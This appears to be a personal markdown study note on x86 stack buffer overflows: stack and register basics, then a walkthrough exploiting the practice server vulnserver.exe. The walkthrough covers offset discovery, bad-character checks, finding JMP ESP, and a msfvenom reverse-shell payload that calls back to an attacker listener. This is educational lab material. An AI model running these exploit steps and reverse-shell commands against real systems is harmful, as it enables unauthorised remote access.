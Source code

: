 # basics

![Buffer Overflow](img/x86Memory.png)

## Stack
* When a tread is running it execute code form the progam image or the DDLs.
* The thread requieres shor term data areas for functions, variable, program control information => stack.
* Each threat has its own stack
* LIFO (push/pop)

## Function return mechanics
When code wihting a thread calls a function is must know on which address to return to once the function is completed

Example of return mechanics (stored in a section of stack called stack frame):
| Thread stack frame example|
| Function A return address: 0x00401024 |
| Parameter 1 for Function A: 0x000000040|
| Parameter 2 for Function A: 0x000001000|

# CPU registers
Small high speed cpu storage locations
* Different registers exists from 32-bit to 8 bits

Most imporant registers (32-bit):
* EAX: for aritmecical and logic instrucations
* EBX: base pointer for memory addresses
* ECX: Loop, shift and rotation counter
* EDX: I/O Port addressing, division, multiplication
* ESI: Pointer of data and source 
* EDi: Pointer of data nd desination in string copy operations

* ESP stack pointer (keeps track of most receent reference locations by stack)
* EBP base pointer (stores a pointer to the top of the sack when a funciton is called)
* EIP always points to the next code instrucation to be executed

# sample volnurable code (C)
//what happens when buffer.length greater than 64? => buffer overflow; overflowing its reserved boundaries
``char buffer[64]; strcpy(buffer, argv[1]);``


# windows
## immunity debugger 
* Open file exe
* Then you can start debugging

## example vulnserver.exe (TCP server)
with nc you can setup a connection to vulnserver to check it

* but kill nc it and run the script ``bufferOverflowHelper.py`` and will hopefully result in something like ``Fuzzing crashed at 22105 bytes``
* Also we see in the immunulty debugger that EIP has been overridding and that it is failing

### detect location of EIP

* to detect location use: ``/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 24105``
* will generate a text and pass this into the ``bufferOverflowHelper.py``
* in immuniaty debugger save the EIP hex, f.i: ``386F4337``
* again with metasploit detect in which location the value is ``/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 24105 -q 386F4337``
* This will geneate the location: ``Exact match at offset 2003`` which means that EIP starts at *2003*

### override EIP
* in your python file substitute buffer where EIP starts (in our case *2003*) with ``buffer = "A" * 2003 + "B" * 4``
* when running the script we will set that EIP is ``42424242`` => BBBB
* Search for badchars in Google, leads to: https://github.com/mrinalpande/scripts/blob/master/python/badchars
* copy this bad chars in your python script and delete 00 && X70 put it in ``badchars`` variable
* buffer variable should look like ``buffer = "A" * 2003 + "B" * 4 + badchars`` 

### check hexdumb of ESP for bad chars
*We have to take the missing chars in the hex dump (Bad chars) out of the shell code for later!*
* check hexdumb of ESP (mark ESP Hex => right click => follow in dump)
(Hexdump) [img/bufferOverflowHexDumpESP.png]
* Check fump for missing chars, f.e.: : ``11 12 B0 14`` => 13 is missing and would be a bad char

### looking for DLL which has no protection (with Monamodules)
Some DLLs have protection against buffer overflow so we need to finds DLLs which do not have it.
* Download monamodule from github: (Mona)[https://github.com/corelan/mona]
* Paste mona.py file under: ``D:\Immunity Debugger\PyCommands``
* In immunuty debugger writh (text field in the lower left corner): ``!mona modules`` and hit enter
* We then see protection settings for certain dlls (check for everything false and attached to the program), in our examlpe: ``essfunc.dll``

### locate JMP commands
Pointer will jump to our malicuous shell code
* type ``locate nasm_shell``
* Call then the path: /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb 
* Type ``JMP ESP`` and it will generate the hashcode equivalend of it: ``FFE4``
* In immunity debugger type in the lower left corner: ``!mona find -s "\xff\xe4" -m essfunc.dll`` => remember: \x *ff* \x *e4*
* Generates: ``\xff\xe4 & 0x625011af``
* In our script we write in reverse order ``buffer = "A" * 2003 + "\xaf\x11\x50\x62"``
* In immunity debugger debug (lclick on most right symbol, in line with the play button) and enter: ``625011af``
* We are overridding the EIP with our command, you will see the hash code 625011af

### gaining shell
Will generate some shell code for reverse shell
// -b including bad chars if we detected some
type with ip of the "acker": ``msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.9 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"``
* Copy this into our python file as overflow variable like: ``buffer = "A" * 2003 + "B" * 4 + "\xaf\x11\x50\x62" + overflow``
* Add naf space to variable (play a bit around with the size: "\x90" * 8) ``buffer = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 8 +  overflow``=> example bufferOverflowHelperFinal.py
* Start netcat on linux by listening on port 4444
* Run applicatino in admin mode and execute script
* Reverse shell established